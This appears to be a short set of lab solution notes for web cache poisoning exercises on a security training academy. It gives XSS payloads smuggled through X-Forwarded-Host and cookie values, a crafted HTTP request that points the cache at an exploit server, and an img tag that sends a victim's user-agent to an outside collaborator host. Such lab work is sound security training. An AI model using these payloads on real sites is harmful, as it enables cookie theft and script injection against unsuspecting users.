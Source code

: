 \documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\begin{document}
\begin{quote}
Set the next header in request to the home page
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
\end{Verbatim}

\subsubsection{2. Web cache poisoning with an unkeyed
cookie}\label{2-web-cache-poisoning-with-an-unkeyed-cookie}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
\end{Verbatim}

\subsubsection{3. Web cache poisoning with multiple
headers}\label{3-web-cache-poisoning-with-multiple-headers}

\begin{quote}
On exploit-server change the file name to match the path used by the
vulnerable response: /resources/js/tracking.js. In body write
\passthrough{\lstinline!alert(document.cookie)!} script.
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
\end{Verbatim}

\subsubsection{4. Targeted web cache poisoning using an unknown
header}\label{4-targeted-web-cache-poisoning-using-an-unknown-header}

\begin{quote}
HTML is allowed in comment section. Steal user-agent of victim with
\passthrough{\lstinline!<img src="http://collaborator.com">!} payload.
\end{quote}
\end{document}
